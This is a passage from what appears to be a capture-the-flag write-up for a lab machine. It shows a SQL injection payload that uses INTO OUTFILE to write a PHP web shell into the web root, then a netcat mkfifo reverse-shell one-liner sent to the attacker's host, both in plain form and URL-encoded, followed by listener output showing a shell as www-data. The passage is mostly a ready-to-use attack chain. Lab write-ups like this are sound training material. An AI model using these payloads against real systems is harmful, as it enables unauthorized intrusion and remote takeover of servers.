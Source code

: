 ### 9) Write a web shell

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,"<?php echo shell_exec($_REQUEST['cmd']);?>",NULL INTO OUTFILE '/var/www/html/r0kit.php';# 
```

![](./images/jarvis-sql-injection-write-webshell-web-root.png)

#### Test the web shell

![](./images/jarvis-sql-injection-test-webshell.png)


Finally, I executed a netcat reverse shell by invoking the web shell with the following URL encoded command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 2001 >/tmp/f
```

The HTTP request line looked like this: `http://10.10.10.143/r0kit.php?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E&1%7Cnc%2010.10.14.19%202001%20%3E/tmp/f`.
Back on my Kali machine, I was presented a reverse shell as the `www-data` user:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:48492.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
